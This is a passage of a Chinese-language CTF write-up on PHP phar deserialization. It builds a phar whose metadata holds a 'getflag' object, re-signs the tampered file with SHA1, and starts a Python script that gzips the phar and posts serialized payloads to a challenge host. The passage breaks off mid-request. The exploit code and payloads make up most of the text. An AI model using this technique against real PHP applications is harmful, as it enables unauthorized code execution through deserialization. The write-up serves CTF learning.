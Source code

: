 ```
a:2:{i:0;O:7:"getflag":{}i:1;N;}
```

所以我们需要将i:1,变为i:0.但是如果直接修改的话会因为签名错误而报错，那么我们可以修改签名.

通过PHP文档我们找到了Phar签名数据在文件的最后

| 长度  | 内容                            |
| ----- | ------------------------------- |
| 变长  | 签名字节                        |
| 4字节 | 签名类型，1代表md5，2代表sha1等 |
| 4字节 | GBMB标识                        |

通过010-editor,查看phar文件签名类型

先生成phar文件

```php
<?php
class getflag{

}

$c=new getflag();
$phar = new Phar("phar1.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata([0=>$c,1=>NULL]); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>

```

sha1签名为例

```php
from hashlib import sha1
f = open('./phar1.phar', 'rb').read() # 修改内容后的phar文件
s = f[:-28] # 获取要签名的数据
h = f[-8:] # 获取签名类型以及GBMB标识
newf = s+sha1(s).digest()+h # 数据 + 签名 + 类型 + GBMB
open('phar2.phar', 'wb').write(newf) # 写入新文件
```

得到修改签名后的文件

跑脚本,传数据

```python
import requests
import gzip
import re

url = 'http://xxx.nss.ctfer.vip:9080/'

file = open("./phar2.phar", "rb") #打开文件
file_out = gzip.open("./phar.zip", "wb+")#创建压缩文件对象
file_out.writelines(file)
file_out.close()
file.close()
# 先将phar的内容写入/tmp/a.txt,其中file_put_contents相当于文件上传.
requests.post(
    url,
    params={
        0: 'O:1:"A":{s:6:"config";s:1:"w";}'
```